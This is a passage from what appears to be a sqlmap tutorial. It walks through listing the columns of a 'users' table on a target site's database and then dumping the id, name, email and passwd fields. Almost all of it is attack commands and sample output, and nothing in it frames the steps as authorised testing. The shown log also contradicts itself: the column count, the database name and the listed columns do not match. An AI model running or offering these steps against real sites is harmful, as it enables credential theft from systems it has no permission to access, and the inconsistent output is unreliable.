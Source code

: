 At the end we have the following tables:

`users, another_table, hello_am_another_table`

The next thing is to select a table and extract the columns within it:

`sqlmap.py -u" http://www.examplepage.com/something.php?id=1&id2=1&id3=1 "-D DB_name -T users --columns`

At the end we have something like this:

```
[12:17:39] [INFO] the back-end DBMS is MySQL
web server operating system: FreeBSD
web application technology: Apache 2.2.22
back-end DBMS: MySQL 5
[12:17:39] [INFO] fetching columns for table 'users' in database 'safecosmetics'
[12:17:41] [INFO] heuristics detected web page charset 'ascii'
[12:17:41] [INFO] the SQL query used returns 4 entries
[12:17:42] [INFO] retrieved: id
[12:17:43] [INFO] retrieved: int(11)                                                                                         
[12:17:45] [INFO] retrieved: name                                                                                            
[12:17:46] [INFO] retrieved: text                                                                                            
[12:17:47] [INFO] retrieved: passwd                                                                                        
[12:17:48] [INFO] retrieved: text                                                                                            

.......

[12:17:59] [INFO] retrieved: hash
[12:18:01] [INFO] retrieved: varchar(128)
Database: nombre_DB
Table: users
[8 columns]
+-------------------+--------------+
| Column            | Type         |
+-------------------+--------------+
| email             | text         |
| id                | int(11)      |
| name              | text         |
| passwd            | text         |
+-------------------+--------------+
```

We have the following columns:

`id, name, email, passwd`

Finally we have to extract the content of those columns:

`sqlmap.py -u" http://www.examplepage.com/something.php?id=1&id2=1&id3=1 "-D DB_name -T users -C id, name, email, passwd --dump`
